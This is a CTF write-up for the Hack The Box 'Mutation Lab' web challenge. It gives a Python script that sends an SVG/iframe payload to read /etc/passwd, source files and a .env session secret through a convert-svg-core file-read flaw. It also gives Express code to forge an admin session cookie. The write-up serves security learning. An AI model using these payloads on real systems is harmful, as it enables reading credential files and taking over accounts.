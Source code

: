```yaml
---
title:  "HTB CTF - Mutation Lab writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


This was a "blind" web challenge, in that no source was provided.

After initially dismissing this challenge because it was "blind"
(no source code), I revisited it as the remaining challenges got harder.

The site greets you with a login portal where you can register a user.

<!-- more -->

![](https://i.postimg.cc/XJKRJKgQ/Pasted-image-20220518220842.png)

After creating a user and logging in, the main application allows you
to play with some cells and "tadpoles" and export them as images.

![](https://i.postimg.cc/FsHMrLkV/Pasted-image-20220518221051.png)

The bottom of the page shows the target

> Only lab admin is allowed to view the confidential records

Checking dev tools, to see what the requests to generate the images
looked like, revealed an application error. The generation of the "tadpoles"
image sent two requests, but one didn't contain any data:

```json
{"svg":null}
```

This request had a stack trace as the response:

```
TypeError: Cannot read properties of null (reading 'indexOf')  
    at Converter.[convert] (/app/node_modules/convert-svg-core/src/Converter.js:191:25)  
    at Converter.convert (/app/node_modules/convert-svg-core/src/Converter.js:114:40)  
    at API.convert (/app/node_modules/convert-svg-core/src/API.js:80:32)  
    at /app/routes/index.js:61:21
```

A quick web search to confirm this is an attack vector, and we see a directory
traversal vulnerability in `convert-svg-core`:
https://snyk.io/vuln/npm:convert-svg-core. Synk even provided a proof of concept snippet!

Writing some Python code to confirm the vulnerability:

```python
import webbrowser
import requests

REMOTE = "http://HOST:PORT"
PAYLOAD = """
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd"" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 0 0" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text></text>
</svg>
"""

res = requests.post(
    f"{REMOTE}/api/export",
    json={
        "svg": PAYLOAD
    })

image = f"{REMOTE}{res.json()['png']}"

print(image)
webbrowser.open_new_tab(image)
```

![](https://i.postimg.cc/90JsPWK9/Pasted-image-20220518222217.png)

For some time I was stuck. I tried `/flag`, `/flag.txt`, `/secret.txt`,
but no luck. I wasn't sure how I could extract any information without
knowing a little about the file structure.

After some searching, one site suggested `/proc/self/envion` to get
the current processes environment variables. It came up empty.

In my own shell I tried `/proc/self/<TAB>` and saw `cwd`! A way to
access the current process's working directory!

![](https://i.postimg.cc/kGnktV19/Pasted-image-20220518222651.png)

> 💭 (In hindsight, I had the original error message that told me
> exactly where the app was - but I like this way better)

```
/proc/self/cwd/index.js
/proc/self/cwd/routes/index.js
/proc/self/cwd/middleware/AuthMiddleware.js
```

These files told me a few things...

- It was an express app
- Logging in set the username on a "session"
- The session was [cookie-session](http://expressjs.com/en/resources/middleware/cookie-session.html)
- The `AuthMiddleware` only checked for the existence of a "username" property

The last piece of the puzzle was an environment variable "SESSION_SECRET_KEY",
which was conveniently loaded from `/app/.env`.

Knowing the secret key meant that I could generate my own session cookies with
any username I wanted.

But first, I suspected the admin username was just "admin", but I wanted to be
sure, so I sent a request to register a user with that name:

```python
import requests

REMOTE = "http://139.59.163.221:30651/api/register"

res = requests.post(REMOTE,
    json={
        "username": "admin",
        "password": "aaa",
    }
)

print(res.json())
# {'message': 'This UUID is already registered!'}
```

To generate the cookie, the best approach I could think was just starting an
express server that sets the cookie.

```js
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()


app.use(cookieSession({
  name: 'session',
  keys: ['<SECRET>']
}))

app.get('/', function (req, res, next) {
  req.session.username = "admin"

  res.end("got 'em")
})

app.listen(3000)
```

I did some browser shuffling -> open http://localhost:3000 -> get the cookie
-> open dev tools -> manually change the cookie host to the target host ->
visit target site -> get logged in as admin!

![](https://i.postimg.cc/h4sFRrvG/Pasted-image-20220518224229.png)
